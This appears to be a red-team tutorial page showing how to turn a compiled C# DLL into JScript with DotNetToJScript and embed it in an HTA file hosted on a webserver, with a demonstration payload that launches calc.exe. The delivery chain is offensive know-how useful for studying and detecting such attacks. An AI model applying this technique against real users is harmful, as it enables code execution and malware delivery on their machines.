 # JS files - DotNetToJScript

## JS files - DotNetToJScript

### Usage

* **Create a simple C# program (public class...)**

```csharp
using System;
using System.Collections.Generic;
using System.Diagnostics;
using System.Windows.Forms;
using System.Linq;
using System.Runtime.InteropServices;
using System.Text;

public class Hello
{
    public void Hellocal()
        {
            Process.Start("calc.exe");
            System.Windows.Forms.MessageBox.Show("hello from calc");


        }
}


```

Note the Class and the method name

![](<../../../../.gitbook/assets/image (297).png>)

* **Compile it as a library:**

```
 C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /platform:x86 /target:library hellocalc.cs
```

![](<../../../../.gitbook/assets/image (124).png>)

* **Download latest DotNetToJScript and compile it (x86 for x86 payload ...)**

```csharp
 git clone https://github.com/tyranid/DotNetToJScript
```

* **Execute DotNetToJScript specify the Class name, an ouput file and the DLL.**

```
 .\DotNetToJScript.exe -l JScript -c Hello -o output.txt .\hello.dll
```

* **Edit the output and add the method**

![](<../../../../.gitbook/assets/image (48).png>)

### HTA Weaponize&#x20;

* **Add the edited output.txt to your HTA file :**

![](<../../../../.gitbook/assets/image (152).png>)

![](<../../../../.gitbook/assets/image (123).png>)

* **Host the file on a webserver :**

![](<../../../../.gitbook/assets/image (135).png>)

![](<../../../../.gitbook/assets/image (106).png>)

###
